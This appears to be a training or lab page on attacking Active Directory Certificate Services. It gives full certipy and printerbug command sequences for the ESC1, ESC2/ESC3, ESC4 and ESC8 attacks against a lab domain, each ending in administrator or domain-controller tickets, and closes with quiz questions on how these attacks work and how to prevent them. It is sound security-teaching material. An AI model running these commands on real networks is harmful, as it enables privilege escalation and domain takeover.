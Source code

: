 #ADCS Exploiting

Active Directory Certificate Services is Microsoft's Public Key Infrastructure implementation for Active Directory environments. It allows organizations to issue, manage, and validate various digital certificates. These certificates can be used for user/computer logon, email/file encryption, signing, and Kerberos authentication.

ADCS misconfigurations may lead to possible attack vectors, as we'll see in this section. ADCS related attacks are also named ESC (Enterprise Security Configuration) attacks. There are many ESC attacks. This section will only illustrate some of these.

As a first step to attack AD through the Certificate Services, an attacker should first assess ADCS information, such as the CA (Certificate Authority) name, as well as the templates issued by the CA, in order to look for some vulnerable templates and CA configurations. To do so, the certipy tool may be used:

```
certipy find -u skyler.white@north.altair.local -p 'Password123' -vulnerable -dc-ip 192.168.122.10 -stdout
```
This will output various information to stdout. We can see that the CA is called North Root CA, and that it is vulnerable to ESC1-4 and ESC8 attacks.

The ESC8 attack is possible since the CA allows web enrollment. This means that users are allowed to request certificates by authenticating through the network. As we've explored on other attacks, we can relay NTLM authentication from a client to a server and impersonate the client against the legitimate server. In this case, let's relay NTLM messages from the DC itself to the CA (which is being hosted by MEMBER), and this way, retrieve a certificate as the DC itself. The certificate can then be used to obtain a TGT issued for the DC account. This allows the attacker to impersonate the DC through its TGT.
```
#start the relay in terminal 1
certipy relay -target 192.168.122.5 -ca 192.168.122.5 -template DomainController 
#trigger NTLM dc authentication from terminal 2
python3 printerbug.py NORTH/skyler.white:Password123@192.168.122.10 192.168.122.2 
#now, you should have acquired a certificate through the certipy script. use it to get a TGT as the DC
certipy auth -pfx captain.pfx -dc-ip 192.168.122.10
```

ESC1-4 are related to misconfigured templates, rather than a misconfigured CA. On an ESC1 attack, an attacker takes advantage of the fact that there's a template that allows the enrollee to supply a SubjectAltName (SAN). This SAN identifies to whom this certificate is being issued to. It basically allows the attacker to say "Hey, I'm asking for this certificate, but it's actually for the administrator, not me. So go ahead and issue a certificate on the administrator's behalf, I'll take care of the rest.". Since the template allows the attacker to supply a SAN, the CA issues this certificate in the administrator's name and sends it to the attacker.

```
#retrieve the certificate
certipy req -u skyler.white@north.altair.local -p 'Password123' -target 192.168.122.5 -template ESC1 -ca 'North Root CA' -upn administrator@north.altair.local
#now use the certificate to authenticate as the administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.122.10 
```

When it comes to ESC2 and ESC3 templates, these are configured with the 'Any Purpose' EKU and 'Certificate Request Agent' EKUs, respectively. EKU stands for Extended Key Usage, and it determines the uses that a template has. These two EKUs allow a user to use the certificates to request other certificates in name of other users. Having these EKUs set on certificate to which low-privilege users can enroll open ways for ESC2(Any Purpose EKU) and ESC3(Certificate Request Agent EKU) attacks:

```
#request the certificate template with over permissive EKUs. can be either ESC2 or ESC3
certipy req -u skyler.white@north.altair.local -p 'Password123' -target 192.168.122.5 -template ESC2 -ca 'North Root CA'
#use the certificate to request another certificate on behalf of another user
certipy req -u skyler.white@north.altair.local -p 'Password123' -target 192.168.122.5 -template User -ca 'North Root CA' -on-behalf-of 'north\administrator' -pfx skyler.white.pfx
#retrieve a tgt for the administrator user
certipy auth -pfx administrator.pfx -dc-ip 192.168.122.10
```

Finally, the ESC4 attack is possible when the attacker has compromised an account that holds write permissions over a certificate template. By being able to modify a certificate template, the attacker can alter its configuration, and for example, allow the enrollee to supply a SAN (ESC1 attack):

```
#Modify the ESC4 certificate template to allow SANs in the request while saving the old certificate template
certipy template -u skyler.white@north.altair.local -p 'Password123' -template ESC4 -dc-ip 192.168.122.10 -target 192.168.122.10 -save-old
#get a certificate for impersonating the administrator through the ESC1 attack, which the ESC4 template is now vulnerable to
certipy req -u skyler.white@north.altair.local -p 'Password123' -target 192.168.122.5 -template ESC4 -ca 'North Root CA' -upn administrator@north.altair.local
#get a tgt using the template
certipy auth -pfx administrator.pfx -dc-ip 192.168.122.10 
#modify the template once again, setting it back to its old configuration
certipy template -u skyler.white@north.altair.local -p 'Password123' -template ESC4 -dc-ip 192.168.122.10 -target 192.168.122.10 -configuration ESC4.json

```

!!! question
    How can an administrator prevent ESC8 attacks?
??? success "Answer"
    The admins can prevent these attacks by disabling CA web enrollment, or by mitigating relay attacks themselves, through enabling SMB signing on CA servers, which would also prevent this attack.
!!! question
    How does ESC1 lead to impersonation of any user, including Domain Admins?
??? success "Answer"
    In an ESC1 attack, the certificate template is misconfigured to allow the enrollee to specify the Subject Alternative Name (SAN). Since the SAN defines the identity the certificate represents, an attacker can simply request a certificate where the SAN is set to a privileged account, like Administrator. The CA issues the certificate without verifying ownership, giving the attacker valid credentials to impersonate that account.
!!! question
    What's the difference between ESC2 and ESC3 attacks?
??? success "Answer"
    The Extended Key Usage values are different. In ESC2, the template has an 'Any Purpose' EKU, which means the certificate can be used for anything, while ESC3 has the 'Certificate Request Agent' EKU which is more granular, but still the EKU that allows to perpetrate these attacks.

